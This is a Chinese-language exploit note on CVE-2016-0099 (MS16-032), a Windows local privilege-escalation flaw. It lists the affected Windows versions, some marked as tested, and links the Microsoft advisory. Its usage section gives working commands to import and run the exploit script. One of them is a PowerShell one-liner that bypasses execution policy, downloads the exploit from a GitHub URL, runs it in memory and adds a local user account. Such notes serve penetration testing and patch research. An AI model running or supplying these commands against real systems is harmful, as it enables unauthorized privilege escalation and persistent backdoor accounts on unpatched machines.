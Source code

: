 ### CVE-2016-0099

#### 描述

此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：目标系统需要有2个以上的CPU核心 PowerShell v2.0及更高版本必须正在运行

#### 影响版本

| Product             | Version | Update | Edition | Tested             |
| ------------------- | ------- | ------ | ------- | ------------------ |
| Windows 10          | -       |        |         |                    |
| Windows 10          | 1511    |        |         |                    |
| Windows 7           | -       | SP1    |         | :heavy_check_mark: |
| Windows 8.1         | -       |        |         |                    |
| Windows Rt 8.1      | -       |        |         |                    |
| Windows Server 2008 |         | SP2    |         | :heavy_check_mark: |
| Windows Server 2008 | R2      | SP1    |         | :heavy_check_mark: |
| Windows Server 2012 | -       |        |         |                    |
| Windows Server 2012 | R2      |        |         |                    |
| Windows Vista       |         | SP2    |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-0099
```

#### 利用方式

> 目标系统需要有2个以上的CPU核心

PS脚本测试，在Windows server 2008 R2 sp1 x64执行下面命令

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

还能远程添加账户

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF图如下

![6](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win2008_x64_ps.gif?raw=true)

利用exe文件测试通杀x64和x86的所有版本，这边只录制Windows 7 sp1 x64版本的

![7](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win7_x64.gif?raw=true)

